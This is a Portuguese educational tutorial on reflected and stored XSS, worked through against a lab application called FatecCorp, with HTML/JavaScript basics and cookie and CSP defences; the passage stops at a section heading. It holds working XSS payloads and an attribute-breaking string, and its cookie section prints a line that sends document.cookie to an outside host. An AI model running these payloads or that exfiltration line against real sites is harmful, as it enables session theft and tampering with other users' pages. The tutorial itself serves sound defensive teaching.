

Cross-Site Scripting
Da interpretação do HTML à proteção de sessões: um percurso sobre XSS refletido e armazenado, com observações da FatecCorp.
- TEMA
- XSS
- MÓDULOS
- 09
- FOCO
- DEFESA
Introdução ao Cross-Site Scripting
1.1 Dados que passam a ser interpretados como código
Cross-Site Scripting (XSS) é uma vulnerabilidade na qual conteúdo controlado por uma parte não confiável acaba executando código no navegador no contexto de uma aplicação. A sigla usa X para “cross”, evitando confusão com CSS, a linguagem de estilos. O nome histórico não significa que todo caso precise carregar um script de outro site: o código pode vir da própria resposta da aplicação vulnerável.
Trata-se de injeção de código porque a entrada muda a estrutura ou o comportamento que deveria ter sido definido apenas pelo desenvolvedor. Um termo de busca deve ser um dado; quando seus caracteres passam a formar um elemento de script ou um manipulador de evento, rompe-se a separação entre dados e instruções. A origem do texto não muda para confiável só porque ele passou pelo servidor ou foi salvo.
Esse fluxo descreve um cenário vulnerável, não uma consequência inevitável de receber texto. O servidor recebe parâmetros, aplica regras de negócio e monta a resposta. O navegador analisa essa resposta com um parser HTML, constrói uma árvore de elementos chamada DOM e, quando permitido, executa JavaScript. O navegador não sabe que um trecho veio de um campo de busca; ele interpreta a estrutura recebida e aplica suas políticas de segurança.
1.2 A fronteira entre conteúdo e instrução
<p>Busca: texto informado pelo usuário</p>
<!-- Saída vulnerável: a entrada tornou-se marcação ativa. -->
<p>Busca: <script>alert('XSS')</script></p>
<!-- Saída codificada: os caracteres são exibidos como texto. -->
<p>Busca: <script>alert('XSS')</script></p>No segundo parágrafo do exemplo, o elemento de script participa da estrutura HTML. No terceiro, as entidades representam caracteres de texto; o navegador não faz uma segunda interpretação automática para transformar aquele texto em script. A correção deve preservar essa distinção no contexto específico da saída.
1.3 Servidor, navegador e impactos
O servidor pode produzir uma resposta insegura tanto ao devolver uma entrada da requisição atual quanto ao recuperar conteúdo previamente armazenado. A execução de XSS acontece no navegador que abre essa resposta. O código passa a operar com as permissões web daquela página, sujeito à política de mesma origem e a outros controles; não ganha automaticamente acesso ao sistema operacional ou a todos os sites abertos.
| Aspecto | XSS | SQL Injection |
|---|---|---|
| Interpretador afetado | Navegador: HTML e JavaScript. | Sistema de banco de dados: comandos SQL. |
| Fronteira rompida | Dados do usuário tornam-se conteúdo ativo da página. | Dados tornam-se parte da estrutura da consulta. |
| Defesa central | Saída tratada conforme seu contexto e uso de APIs seguras. | Consultas parametrizadas e separação entre comando e parâmetros. |
| Relação | Pode existir mesmo sem banco de dados. | Pode existir sem execução de JavaScript. |
Entre os impactos possíveis estão alteração de conteúdo, falsificação da interface, leitura de informações acessíveis à página e ações com a sessão do usuário. A gravidade depende do local de execução, das permissões da vítima, dos dados disponíveis e das defesas existentes. Um alerta é uma evidência didática de execução, não uma medida completa do impacto. A classificação técnica dessa falha é CWE-79, do MITRE.
Fundamentos de HTML, JavaScript e eventos
2.1 Tags, atributos e estrutura HTML
<p class="aviso">Uma mensagem de texto.</p>
<input type="text" value="conteudo">
<img src="imagem-local.png" alt="Descrição da imagem">Uma tag de abertura, como <p>, inicia um elemento; </p> o encerra. O conteúdo fica entre ambas. Atributos aparecem na abertura e configuram o elemento: class é um exemplo. Elementos vazios, como input e img, não têm uma tag de fechamento HTML. Nem toda tag aceita os mesmos conteúdos, e o parser pode corrigir estruturas inválidas. Por isso o HTML retornado e a árvore exibida em Elements podem diferir.
2.2 JavaScript no navegador
<script>
alert('Olá, mundo!');
</script>O elemento script delimita instruções JavaScript. A chamada alert(...) invoca uma função; parênteses contêm seus argumentos, e aspas delimitam uma string. Esse código é legítimo quando integra intencionalmente a aplicação. O mesmo código, introduzido por um visitante onde só deveria existir texto, evidencia uma quebra da fronteira de confiança. O fato de ser JavaScript não o torna, isoladamente, uma vulnerabilidade.
2.3 Funções e propriedades usadas nas demonstrações
| Expressão | Significado e limites |
|---|---|
alert() | Solicita um diálogo ao navegador. Diálogos podem ser suprimidos; a ausência de janela não prova ausência de execução. |
console.log() | Registra uma mensagem no Console. Filtros da ferramenta podem ocultar o registro; não altera a interface. |
document.domain | Lê o domínio do documento; no acesso por IP aqui, retorna 192.168.10.20. Não é a origem completa: protocolo e porta não aparecem. Alterar essa propriedade é uma prática legada, fora desta demonstração. |
location.href | Lê a URL completa da página atual, incluindo consulta e fragmento quando presentes. A leitura não redireciona; atribuir outro valor pode navegar. |
document.title | Lê ou altera o título do documento, normalmente mostrado na aba. |
document.cookie | Lê os pares nome=valor de cookies acessíveis ao JavaScript naquele contexto. Não inclui os cookies HttpOnly nem seus atributos de configuração. |
document.body.style | Acessa estilos inline do elemento body. A propriedade backgroundColor permite alterar sua cor; não modifica arquivos CSS no servidor. |
O operador = atribui um valor; o operador + pode concatenar strings. Uma expressão como document.title = 'Novo título' altera uma propriedade de um objeto. Essas pequenas operações ajudam a comprovar execução sem ler informações de usuários. Referência de linguagem: JavaScript na MDN.
2.4 Eventos HTML: execução sem uma tag de script
| Atributo | Momento em que o código pode executar | Observação |
|---|---|---|
onload | Quando o evento de carregamento correspondente é emitido. | Depende do elemento e do modo como ele foi inserido. |
onerror | Quando ocorre um erro no recurso associado, como falha de imagem. | Uma imagem válida não provoca esse erro de carregamento. |
onfocus | Quando o elemento recebe foco. | Pode exigir interação; autofocus é uma solicitação, não uma garantia. |
onclick | Quando ocorre a ativação/clique no elemento. | Não executa apenas por o HTML estar presente. |
onmouseover | Quando o ponteiro entra no elemento ou em descendentes conforme a propagação do evento. | Dispositivos sem ponteiro e ausência de interação mudam o comportamento. |
<button type="button" onclick="console.log('Clique observado')">
Exemplo de evento
</button>O valor de um atributo de evento contém instruções, não texto comum. O exemplo registra uma mensagem se o botão for ativado em um documento que permita handlers inline; aqui ele é apenas texto. Esses atributos mostram por que bloquear somente a palavra script é insuficiente para prevenir XSS.
2.5 Aspas determinam a fronteira de um atributo
<input type="text" value="conteudo">As aspas duplas delimitam o valor de value. Se a aplicação concatena uma entrada sem codificar a aspa correspondente, o usuário pode encerrar esse valor e introduzir novos atributos. Em contrapartida, uma tag de script dentro de um valor corretamente delimitado é apenas parte daquele valor: seu formato não basta para criar um elemento executável. Vamos observar as duas situações na News.
XSS refletido na FatecCorp
3.1 Da requisição à mesma resposta
No XSS refletido, uma entrada da requisição é incorporada à resposta que o navegador interpreta. Ela pode chegar em uma consulta GET, em um corpo POST ou por outra entrada controlável. Não é necessário persistir o payload para essa execução. Um link preparado pode carregar o valor na URL; a vítima precisa ser exposta à requisição e à resposta vulneráveis. Logs podem registrar o valor, mas isso não transforma automaticamente esse fluxo em XSS armazenado.
Referência observada: News — Notícias e Conhecimento. O formulário real usa method="get", action="index.php", um campo oculto page=pages/news.php e um campo de texto busca. O botão é “Buscar”.
<form method="get" action="index.php">
<input type="hidden" name="page" value="pages/news.php">
<input type="text" name="busca" value="">
<button type="submit">Buscar</button>
</form>
<!-- Trecho observado; estilos e contêineres omitidos. -->3.2 O que foi efetivamente observado
Ao preencher o formulário com FATEC_XSS_MARCADOR_20261027 e acionar Buscar, a navegação foi para a requisição abaixo. O marcador reapareceu no atributo value e em dois elementos strong no corpo. São dois contextos distintos para a mesma entrada.
GET /fateccorp/index.php?page=pages%2Fnews.php&busca=FATEC_XSS_MARCADOR_20261027 HTTP/1.1
Host: 192.168.10.20<input type="text" name="busca" value="FATEC_XSS_MARCADOR_20261027" ...>
<strong>FATEC_XSS_MARCADOR_20261027</strong>
<!-- Recortes observados; ... indica atributos omitidos na transcrição. -->3.3 Payloads básicos: um efeito de cada vez
Payload 1 — Execução básica
Confirmado na News: chamada de alert com XSS registrada.
<script>alert('XSS')</script>Leitura do código. O elemento script contém uma chamada de alert com a string XSS.
Contexto e resultado. Exige saída não codificada em conteúdo HTML que aceite o elemento script, e permissão para JavaScript inline. Dentro de value sem romper as aspas, essa tag não vira um elemento. A execução solicita o diálogo “XSS”.
Condições e limites. Codificação de saída, sanitização apropriada ou CSP podem impedir a execução. Inserção por certos mecanismos de atualização de HTML também não executa scripts da mesma forma que o parser de uma navegação.
Conceito demonstrado. Texto não confiável tornou-se instrução do navegador.
Payload 2 — Domínio atual
Confirmado na News: chamada com 192.168.10.20 registrada.
<script>alert(document.domain)</script>Leitura do código. Em vez de uma string fixa, o argumento é a leitura de document.domain.
Contexto e resultado. Exige saída não codificada em conteúdo HTML que aceite o elemento script, e permissão para JavaScript inline. Dentro de value sem romper as aspas, essa tag não vira um elemento. No laboratório, o valor lido foi 192.168.10.20.
Condições e limites. Codificação de saída, sanitização apropriada ou CSP podem impedir a execução. Inserção por certos mecanismos de atualização de HTML também não executa scripts da mesma forma que o parser de uma navegação. Essa propriedade não informa porta nem protocolo.
Conceito demonstrado. O código roda associado ao documento vulnerável, não a uma página independente do autor do payload.
Payload 3 — URL da página
Confirmado na News: chamada contendo a URL de teste registrada.
<script>alert(location.href)</script>Leitura do código. Lê a URL atual e a passa para alert.
Contexto e resultado. Exige saída não codificada em conteúdo HTML que aceite o elemento script, e permissão para JavaScript inline. Dentro de value sem romper as aspas, essa tag não vira um elemento. O valor inclui a rota News e o parâmetro busca codificado na URL.
Condições e limites. Codificação de saída, sanitização apropriada ou CSP podem impedir a execução. Inserção por certos mecanismos de atualização de HTML também não executa scripts da mesma forma que o parser de uma navegação. A URL pode conter informações; aqui só havia o payload de teste e parâmetros do laboratório.
Conceito demonstrado. O script consegue ler informações de navegação disponíveis ao documento.
Payload 4 — Console JavaScript
Confirmado na News: mensagem no Console.
<script>console.log('XSS executado')</script>Leitura do código. Chama console.log com uma mensagem fixa.
Contexto e resultado. Exige saída não codificada em conteúdo HTML que aceite o elemento script, e permissão para JavaScript inline. Dentro de value sem romper as aspas, essa tag não vira um elemento. O Console recebe XSS executado.
Condições e limites. Codificação de saída, sanitização apropriada ou CSP podem impedir a execução. Inserção por certos mecanismos de atualização de HTML também não executa scripts da mesma forma que o parser de uma navegação. É necessário observar o nível de log correto e limpar registros anteriores para atribuir a mensagem à navegação.
Conceito demonstrado. Execução pode ser comprovada sem alteração visual ou leitura de dados.
3.4 Payloads utilizando eventos HTML
Payload 5 — onerror
Confirmado na News: chamada XSS pelo handler registrada.
<img src=x onerror=alert('XSS')>Leitura do código. Cria uma imagem cuja URL relativa é x e associa uma chamada ao erro de carregamento. O valor do handler está sem aspas HTML; as aspas internas pertencem à string JavaScript.
Contexto e resultado. Precisa ser interpretado como elemento img. Nesta rota, x é resolvido relativamente ao diretório /fateccorp/. Se a imagem falhar, o evento pode chamar alert.
Condições e limites. Se x for uma imagem válida, o erro esperado não ocorre. Sanitização, codificação e CSP que bloqueie handlers inline impedem o efeito; falha de rede sozinha não comprova execução.
Conceito demonstrado. A superfície de execução inclui atributos de evento.
Payload 6 — SVG com onload
Confirmado na News: chamada XSS registrada.
<svg onload=alert('XSS')>Leitura do código. Introduz um elemento SVG com um handler de carregamento.
Contexto e resultado. O parser precisa reconhecer a marcação SVG em conteúdo HTML. Na configuração verificada, o evento provocou a chamada de alert.
Condições e limites. Não é universal: modo de inserção, tratamento do SVG, sanitização, política de scripts e comportamento do navegador interferem.
Conceito demonstrado. Elementos de outras linguagens de marcação integrados ao HTML também exigem tratamento seguro.
Payload 7 — onfocus
Confirmado na News: chamada XSS registrada no carregamento testado.
<input autofocus onfocus=alert('XSS')>Leitura do código. Cria um campo focável, pede foco com autofocus e define um handler onfocus.
Contexto e resultado. Precisa criar um elemento input real em um contexto permitido. Ao receber foco, o campo solicita o alerta.
Condições e limites. Autofocus pode ser ignorado por disputa de foco, estado do documento, navegação ou políticas do navegador. Foco manual pode disparar o evento; CSP pode bloquear o handler.
Conceito demonstrado. Presença do elemento e disparo do evento são etapas diferentes.
3.5 Manipulação visual da página
Payload 8 — Alteração da cor de fundo
Confirmado na News: document.body.style.backgroundColor retornou red.
<script>
document.body.style.backgroundColor='red'
</script>Leitura do código. Atribui red à propriedade backgroundColor do estilo inline de body.
Contexto e resultado. Exige saída não codificada em conteúdo HTML que aceite o elemento script, e permissão para JavaScript inline. Dentro de value sem romper as aspas, essa tag não vira um elemento. A propriedade de estilo passa a red; áreas cobertas por outros elementos podem manter suas próprias cores.
Condições e limites. Codificação de saída, sanitização apropriada ou CSP podem impedir a execução. Inserção por certos mecanismos de atualização de HTML também não executa scripts da mesma forma que o parser de uma navegação. O body deve existir nesse momento; regras CSS prioritárias podem limitar o efeito percebido.
Conceito demonstrado. Uma modificação visual prova capacidade de alterar a apresentação, mas não prova acesso a dados ou tomada de sessão.
Payload 9 — Alteração do título
Confirmado na News: título XSS executado.
<script>
document.title='XSS executado'
</script>Leitura do código. Atribui uma string à propriedade title do documento.
Contexto e resultado. Exige saída não codificada em conteúdo HTML que aceite o elemento script, e permissão para JavaScript inline. Dentro de value sem romper as aspas, essa tag não vira um elemento. O título lido após o carregamento passa a XSS executado.
Condições e limites. Codificação de saída, sanitização apropriada ou CSP podem impedir a execução. Inserção por certos mecanismos de atualização de HTML também não executa scripts da mesma forma que o parser de uma navegação. Outro script pode substituir o título posteriormente.
Conceito demonstrado. XSS pode adulterar informações da interface; a alteração aqui não é persistência no servidor.
3.6 Quebra de atributo: uma segunda superfície na mesma entrada
" onfocus="alert('XSS no Input!')" autofocus="A primeira aspa dupla encerra o valor original de value. O espaço separa atributos e onfocus="..." acrescenta código a executar quando o input recebe foco. Em seguida, autofocus=" abre outro valor: a aspa de fechamento que já existia no template pode encerrá-lo. O atributo booleano autofocus vale pela presença, mesmo escrito com valor vazio.
<input type="text" value="ENTRADA_USUARIO">
<!-- Resultado ilustrativo da concatenação vulnerável: -->
<input type="text" value=""
onfocus="alert('XSS no Input!')"
autofocus="">Na FatecCorp, existe esse contexto equivalente no input name="busca". A inspeção confirmou os atributos novos e a chamada XSS no Input!. O mesmo conteúdo inserido entre tags não tem necessariamente o mesmo efeito; em um atributo delimitado por aspas simples, essa primeira aspa dupla não encerra o valor. Com " na saída HTML, a aspa fica no valor como dado e não cria outro atributo.
A execução exige que o input receba foco e que handlers inline sejam permitidos. O nome autofocus não garante foco em todos os carregamentos. Este payload demonstra como a sintaxe do contexto, especialmente o delimitador, determina o resultado; não é uma string universal para qualquer campo.
3.7 Leitura final do fluxo refletido
A News confirmou duas posições de reflexão e execução inofensiva por script e eventos. O parâmetro page seleciona a rota nesta demonstração; o vetor confirmado é busca. A vulnerabilidade não é o uso de GET: é devolver essa entrada sem tratamento nos contextos identificados. Codificar o transporte na URL não corrige a saída HTML, pois o servidor decodifica os parâmetros antes de utilizá-los.
XSS armazenado na FatecCorp
4.1 Persistir dados não deveria persistir instruções
No Stored XSS, também chamado XSS armazenado ou persistente, a aplicação guarda uma entrada e a recupera em outra ocasião. O código não executa “dentro do armazenamento”; executa quando uma página apresenta o conteúdo de maneira vulnerável e um navegador o interpreta. O meio de persistência pode ser banco, arquivo ou outro serviço. A categoria exige evidência de recuperação posterior, não apenas uma mensagem de envio bem-sucedido.
O fluxo pode atingir quem consultar o conteúdo depois, inclusive em outra sessão ou navegador, se aquela visualização usar a mesma saída insegura. A persistência amplia a exposição potencial, mas não determina sozinha a gravidade. Um campo armazenado e sempre apresentado como texto não configura execução de XSS.
4.2 Contact: formulário e mural observados
Referência: Contact — Contato / Ouvidoria. O formulário observado usa POST e action="index.php?page=pages/contact.php". Não foi inventado um endpoint separado de gravação.
| Rótulo observado | Nome enviado | Tipo e obrigatoriedade no HTML |
|---|---|---|
| Nome Completo | name | input text, required. |
| E-mail corporativo | email | input email, required. |
| Empresa / Órgão | company | input text, opcional. |
| Mensagem ou Manifestação | message | textarea, required. |
Essas restrições do navegador descrevem a interface; não demonstram validação equivalente no servidor. Foi usado tutorial@example.invalid, um endereço fictício, com nome e empresa explicitamente didáticos. O botão observado é “Enviar mensagem para Ouvidoria”.

POST /fateccorp/index.php?page=pages/contact.php HTTP/1.1
Host: 192.168.10.20
Content-Type: application/x-www-form-urlencoded
name=Demonstra%C3%A7%C3%A3o+did%C3%A1tica+XSS&email=tutorial%40example.invalid&company=Laborat%C3%B3rio+autorizado&message=FATEC_XSS_20261027+%3Cscript%3Econsole.log%28%27Payload+persistente+executado%27%29%3C%2Fscript%3EO POST retornou à página Contact e a mensagem apareceu no Mural de Mensagens Recebidas, acompanhada do registro no Console. Essa aparição foi a confirmação de envio efetivamente registrada. Nenhum texto específico de banner de sucesso foi preservado na coleta; não se atribui à aplicação uma frase não observada.
<div style="color: #2d3748; line-height: 1.6; font-size: 14px; word-break: break-word;">
FATEC_XSS_20261027 <script>console.log('Payload persistente executado')</script>
</div>
<!-- Recorte do DOM observado após nova visita, com espaços normalizados. -->Depois do envio, os cookies do navegador foram apagados e foi feita uma nova navegação GET para Contact, sem o payload na URL nem no corpo da requisição. A mensagem continuou no mural e o Console voltou a registrar Payload persistente executado. Isso confirma persistência recuperável sem aqueles cookies e execução no contexto de conteúdo de um div. Não foi um teste em outro produto de navegador, nem prova sobre a duração indefinida do armazenamento.
4.3 Payloads para demonstração de conteúdo persistido
Os seis exemplos seguintes devem ser lidos no fluxo de recuperação do mural. Só o exemplo de Console foi submetido nesta análise. Os outros explicam efeitos possíveis no mesmo tipo de contexto, sem afirmar que foram executados na FatecCorp.
Payload 1 — Alerta persistente
Ilustrativo: este payload não foi submetido em Contact.
<script>alert('Stored XSS')</script>Leitura do código. Um script chama alert com uma mensagem fixa.
Contexto e resultado. Pressupõe que message seja recuperado como HTML ativo no corpo do mural, como ocorreu com o teste de Console. Se permitido, cada visualização vulnerável pode solicitar o alerta Stored XSS.
Condições e limites. Codificação contextual, sanitização do HTML permitido e CSP podem impedir a execução. Salvar a string não garante que ela vire código ao exibir. O navegador pode suprimir diálogos.
Conceito demonstrado. A execução ocorre na leitura do conteúdo, não necessariamente só no envio.
Payload 2 — Evento onerror
Ilustrativo: não testado em Contact.
<img src=x onerror="alert('XSS armazenado!')">Leitura do código. Uma imagem de URL relativa x contém um handler de erro entre aspas duplas.
Contexto e resultado. Pressupõe que message seja recuperado como HTML ativo no corpo do mural, como ocorreu com o teste de Console. Se a imagem falhar e o handler for permitido, a visualização solicita XSS armazenado!.
Condições e limites. Codificação contextual, sanitização do HTML permitido e CSP podem impedir a execução. Salvar a string não garante que ela vire código ao exibir. Se a URL resolver para imagem válida, esse gatilho não acontece.
Conceito demonstrado. A persistência também pode transportar atributos de evento.
Payload 3 — Modificação do título
Ilustrativo: não testado em Contact.
<script>
document.title='Stored XSS'
</script>Leitura do código. Atribui Stored XSS ao título do documento que renderiza a mensagem.
Contexto e resultado. Pressupõe que message seja recuperado como HTML ativo no corpo do mural, como ocorreu com o teste de Console. A aba pode passar a mostrar esse título em cada recuperação vulnerável.
Condições e limites. Codificação contextual, sanitização do HTML permitido e CSP podem impedir a execução. Salvar a string não garante que ela vire código ao exibir. Código posterior pode sobrescrever o título.
Conceito demonstrado. Uma entrada armazenada pode influenciar a interface de quem a lê.
Payload 4 — Console
Confirmado em Contact: versão equivalente em uma linha, precedida pelo marcador FATEC_XSS_20261027.
<script>
console.log('Payload persistente executado')
</script>Leitura do código. Registra uma string fixa no Console, sem ler dados da sessão.
Contexto e resultado. Pressupõe que message seja recuperado como HTML ativo no corpo do mural, como ocorreu com o teste de Console. A mensagem reaparece no Console quando o conteúdo armazenado é renderizado.
Condições e limites. Codificação contextual, sanitização do HTML permitido e CSP podem impedir a execução. Salvar a string não garante que ela vire código ao exibir. É preciso distinguir o novo log de registros de navegações anteriores.
Conceito demonstrado. Persistência e execução foram verificadas separadamente por uma nova visita sem os cookies anteriores.
Payload 5 — SVG
Ilustrativo: não testado em Contact.
<svg onload=alert('Stored XSS')>Leitura do código. Um elemento SVG aciona alert por um evento load.
Contexto e resultado. Pressupõe que message seja recuperado como HTML ativo no corpo do mural, como ocorreu com o teste de Console. Se o evento ocorrer, solicita o alerta Stored XSS.
Condições e limites. Codificação contextual, sanitização do HTML permitido e CSP podem impedir a execução. Salvar a string não garante que ela vire código ao exibir. Tratamento de SVG, modo de inserção e eventos variam; onload não é universal em qualquer situação.
Conceito demonstrado. HTML persistido deve considerar elementos e atributos executáveis além de script.
Payload 6 — Alteração visual
Ilustrativo: não testado em Contact.
<script>
document.body.style.backgroundColor='lightyellow'
</script>Leitura do código. Muda o estilo inline de fundo do body para lightyellow.
Contexto e resultado. Pressupõe que message seja recuperado como HTML ativo no corpo do mural, como ocorreu com o teste de Console. A propriedade pode alterar a aparência do documento durante a visita.
Condições e limites. Codificação contextual, sanitização do HTML permitido e CSP podem impedir a execução. Salvar a string não garante que ela vire código ao exibir. Body precisa existir; elementos sobrepostos e regras de estilo podem ocultar a cor.
Conceito demonstrado. O conteúdo persistente pode adulterar apresentação, sem que isso comprove comprometimento de sessão.
4.4 Reflexão e persistência são caminhos diferentes
Na News, o navegador recebe o payload da requisição de busca atual. No mural de Contact, ele recebe conteúdo enviado antes por outra requisição. Ambos executam no navegador e dependem do contexto de saída. Corrigir somente o formulário de envio não resolve cópias já armazenadas nem outras telas que recuperem os mesmos dados. A codificação deve ser aplicada em cada ponto de apresentação, inclusive visualizações de maior privilégio que realmente existam e sejam verificadas.
Cookies, sessões e consequências do XSS
5.1 Cookies: estado entre requisições HTTP
HTTP não associa automaticamente duas requisições à mesma pessoa. Cookies são pares nome=valor que o navegador guarda e envia conforme regras de domínio, caminho, segurança e contexto. Um servidor pode emitir Set-Cookie e reconhecer um identificador em requisições posteriores pelo cabeçalho Cookie. O identificador de sessão costuma apontar para estado mantido no servidor; não é, necessariamente, a senha ou todos os dados do usuário.
HTTP/1.1 200 OK
Set-Cookie: sessao=valor_ficticio; Path=/
# Em uma requisição posterior elegível:
GET /area HTTP/1.1
Host: aplicacao.example
Cookie: sessao=valor_ficticioO armazenamento pode durar até o término da sessão do navegador ou até uma expiração definida. Restauração de sessão e políticas de privacidade influenciam esse comportamento. Autenticação é a validação de identidade; um cookie pode carregar o identificador que permite ao servidor reconhecer a sessão autenticada. Nem todo cookie é de autenticação: preferências e outras finalidades também usam esse mecanismo.
document.cookieA propriedade devolve uma string com cookies disponíveis ao JavaScript, normalmente separados por ponto e vírgula. A disponibilidade depende de escopo, políticas do navegador e ausência de HttpOnly. Ela pode retornar vazio mesmo quando existem cookies enviados automaticamente. Não revela os atributos HttpOnly, Secure ou SameSite de cada cookie. O acesso por JavaScript e o envio automático em HTTP são mecanismos distintos.
5.2 Exfiltração: análise técnica do mecanismo
Exfiltração é a transferência não autorizada de dados para um destino externo ao fluxo previsto. Um XSS pode tentar converter informações acessíveis à página em parâmetros de uma requisição. O exemplo abaixo é apenas referência para análise: não foi executado durante a verificação e nunca deve ser usado para coletar cookies reais.
<script>
new Image().src="http://192.168.10.10:8080/?c="+document.cookie
</script>| Trecho | Leitura técnica |
|---|---|
<script> … </script> | Delimita código a ser interpretado pelo navegador se estiver em contexto ativo e for permitido. No tutorial, aparece escapado como texto. |
new Image() | Cria um objeto de imagem HTML. Não é necessário anexá-lo visualmente à página para atribuir seu recurso. |
.src= | Define a URL do recurso. Essa atribuição pode iniciar uma busca HTTP pela imagem. Uma imagem válida não é necessária para o receptor registrar a tentativa. |
http://192.168.10.10 | Endereço privado indicado para um receptor local de laboratório. Não é a FatecCorp, que está em 192.168.10.20. Ser privado não elimina o risco de exposição a outros participantes da rede. |
:8080 | Porta TCP do serviço receptor pretendido. Sem serviço acessível, não há recebimento comprovado. |
/?c= | Caminho raiz / e parâmetro de consulta chamado c. O nome c é uma escolha do exemplo, não um campo obrigatório de cookies. |
+ | Concatena a URL inicial com o resultado da expressão seguinte. |
document.cookie | Lê apenas cookies disponíveis ao JavaScript naquele documento. Esses caracteres passam a compor o valor de consulta da URL. |
Se a requisição for permitida e chegar ao receptor, a URL pode aparecer nos registros de acesso. Isso pode expor informação mesmo que o navegador não consiga ler a resposta do receptor. A política de mesma origem e o CORS não são uma barreira geral contra o envio de uma requisição de imagem: restringir a leitura de respostas é diferente de impedir tráfego de saída.
O exemplo original concatena o valor sem codificá-lo. Caracteres como & e # podem alterar a consulta ou produzir fragmentos que não chegam ao servidor. Isso é uma limitação de fidelidade do exemplo, não uma defesa confiável. Um valor vazio também não comprova proteção completa contra XSS.
O navegador é quem inicia a requisição para o receptor; o servidor da FatecCorp não precisa encaminhar diretamente esses dados. Quando o valor é incorporado à URL, ele deixa de ser apenas um cookie enviado pelas regras normais e torna-se texto em um endereço de destino escolhido pelo código.
5.3 Simulação com dados fictícios
<script>
new Image().src="http://192.168.10.10:8080/?c="+
encodeURIComponent("COOKIE_DE_TESTE=valor_ficticio")
</script>Aqui não existe leitura de document.cookie. A string fixa contém somente um nome e um valor de demonstração. encodeURIComponent codifica caracteres de um componente da URL, preservando-os como valor do parâmetro; não criptografa nem torna dados secretos. O sinal de igual do valor fictício é representado por %3D.
GET /?c=COOKIE_DE_TESTE%3Dvalor_ficticio HTTP/1.1
Host: 192.168.10.10:8080192.168.10.20 - - [DATA/HORA] "GET /?c=COOKIE_DE_TESTE%3Dvalor_ficticio HTTP/1.1" 404 -Um registro pode conter método, caminho, consulta, data e status. Até um status 404 pode indicar que a requisição chegou, embora nenhuma imagem tenha sido encontrada. O endereço do cliente não é necessariamente o servidor da aplicação; o IP na linha acima é apenas um exemplo. O receptor só observará algo se houver conectividade, serviço disponível e permissão das políticas do navegador. Nenhum serviço receptor foi iniciado ou contatado nesta análise; não há log real de exfiltração.
5.4 HttpOnly: proteger a leitura do identificador
Set-Cookie: sessao=valor_ficticio; Path=/
Set-Cookie: sessao=valor_ficticio; Path=/; HttpOnlyNo primeiro cenário, o cookie pode estar disponível a document.cookie, se as demais condições de escopo e política permitirem. No segundo, HttpOnly o exclui das APIs de cookies acessíveis a JavaScript. O servidor define esse atributo pelo cabeçalho; JavaScript não consegue criar um cookie HttpOnly por atribuição a document.cookie.
Mesmo com HttpOnly, o navegador pode enviar o cookie automaticamente em requisições elegíveis. Portanto, um script injetado pode executar ações com a sessão existente, ler informações apresentadas na página ou adulterar a interface sem obter o identificador diretamente. HttpOnly reduz uma via de exposição, mas não neutraliza o XSS.
5.5 Secure e SameSite: controles com funções diferentes
| Atributo | O que protege | O que não resolve |
|---|---|---|
HttpOnly | Restringe leitura do cookie por JavaScript. | Não impede ações feitas pelo navegador com a sessão. |
Secure | Restringe envio do cookie a conexões consideradas seguras, normalmente HTTPS; navegadores têm tratamento especial para localhost. | Não esconde, por si, o valor de JavaScript nem corrige HTML inseguro. Um IP privado HTTP não equivale a localhost. |
SameSite | Controla envio em determinados contextos entre sites: Strict, Lax ou None. None exige Secure em navegadores modernos. | Não é uma barreira geral a scripts que já executam na própria aplicação. |
“Mesmo site” e “mesma origem” não são sinônimos: origem considera esquema, host e porta; a noção de site agrupa contextos segundo regras do navegador, incluindo o esquema. Lax e Strict têm políticas diferentes para navegações e requisições entre sites. Essas escolhas precisam acompanhar o fluxo de autenticação legítimo. Se um script já leu um valor e o colocou na consulta de uma imagem, SameSite não transforma aquele parâmetro em cookie protegido.
Set-Cookie: sessao=valor_ficticio; Path=/; HttpOnly; Secure; SameSite=LaxEsse cabeçalho é uma composição ilustrativa, não uma configuração verificada da FatecCorp. A aplicação fornecida usa HTTP em IP privado; migrar para HTTPS é necessário para empregar adequadamente cookies Secure nesse cenário. Os conceitos de armazenamento e atributos podem ser consultados em HTTP Cookies, MDN.
5.6 CSP, conteúdo misto e outras restrições
A Content Security Policy (CSP) pode limitar as origens de scripts e o uso de código inline. Uma política sem autorização para scripts inline pode bloquear tanto elementos script injetados quanto handlers de evento. A diretiva img-src pode impedir que uma imagem seja requisitada a um destino não permitido, mesmo quando algum JavaScript já conseguiu executar.
Em uma página HTTPS, carregar uma imagem por HTTP envolve conteúdo misto. Conforme o recurso e o navegador, há bloqueio ou atualização para HTTPS; imagens com URL HTTP em endereço IP são particularmente sujeitas a bloqueio em vez de atualização automática. Não se deve presumir que o receptor HTTP funcionará. Políticas de acesso à rede local, bloqueadores, sandbox de frames, configurações de privacidade e conectividade também interferem.
Na FatecCorp, as execuções registradas mostram que os exemplos específicos não foram impedidos naquela navegação. Isso não equivale a uma auditoria completa de cabeçalhos, versões, extensões ou todas as políticas possíveis. Uma falha de conexão com o receptor também não provaria que a falha de XSS foi corrigida.
5.7 Consequências além de alertas
| Impacto | Condição técnica relevante |
|---|---|
| Exposição de dados e confidencialidade | Código pode ler conteúdo acessível à página e tentar transmiti-lo, sujeito a políticas de execução e rede. |
| Manipulação da interface | Pode alterar textos, links e campos, afetando decisões do usuário e a integridade do que é exibido. |
| Ações na sessão | Requisições elegíveis podem carregar cookies automaticamente. Autorizações do servidor continuam delimitando as ações possíveis. |
| Possível comprometimento de sessão | Depende da exposição de credenciais ou identificadores utilizáveis, da validade da sessão e de controles adicionais. Não é consequência automática. |
| Maior alcance do conteúdo persistido | Depende de quem visualiza a saída vulnerável, quando isso acontece e com quais privilégios. |
As demonstrações locais comprovam capacidade de execução ou alteração visual. Não comprovaram acesso privilegiado, reutilização de sessão, exfiltração real ou comprometimento de contas. Essa distinção permite avaliar o risco sem substituir evidência por suposição.
Como identificar vulnerabilidades XSS
6.1 Uma metodologia baseada em evidências
